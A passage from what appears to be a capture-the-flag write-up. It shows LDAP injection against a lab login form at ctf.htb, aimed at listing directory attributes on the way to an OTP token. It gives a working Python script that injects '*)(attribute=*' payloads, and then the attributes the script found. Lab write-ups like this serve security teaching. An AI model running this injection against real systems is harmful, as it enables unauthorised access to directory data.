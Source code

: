 ### LDAP injection to get the OTP token

The first thing I did next was to try to find out which LDAP attributes are valid in the database. The list of common LDAP attributes is available on multiple websites, and we already have a hint from the HTML comments that the application uses a common LDAP attribute to store the token.

I modified my script to run through the entire list of attributes and try a query resulting in: `(uid=*)(attribute_to_test=*)`. If the attribute exists, the query should return a result and I should get the `Cannot login` message.

```python
#!/usr/bin/python

import re
import requests
import time
import urllib

def main():
	with open("attributes.txt") as f:
		attributes = f.read().splitlines()

	for attribute in attributes:

		payload = "*)({}=*".format(attribute)
		data = {
			"inputUsername": urllib.quote(payload),
			"inputOTP": "12345",
		}

		proxy = {"http": "http://127.0.0.1:8080"}
		
		time.sleep(0.5)
		r = requests.post("http://ctf.htb/login.php", data=data, proxies=proxy)
		m = re.search(r'<form action="/login.php" method="post" >\s+<div class="form-group row">\s+<div class="col-sm-10">\s+(.*)</div>', r.text)
		if m:
			try:
				if "Cannot login" in m.group(1):
					print("Attribute {}: exists!".format(attribute))				
			except IndexError:
				print("Something weird happened")

if __name__== "__main__":
	main()
```

Results are shown here:
```
# python ldapattributes.py 
Attribute cn: exists!
Attribute gidNumber: exists!
Attribute homeDirectory: exists!
Attribute loginShell: exists!
Attribute mail: exists!
Attribute pager: exists!
Attribute shadowLastChange: exists!
Attribute shadowMax: exists!
Attribute shadowMin: exists!
Attribute shadowWarning: exists!
Attribute sn: exists!
Attribute uid: exists!
Attribute uidNumber: exists!
Attribute userPassword: exists!
```
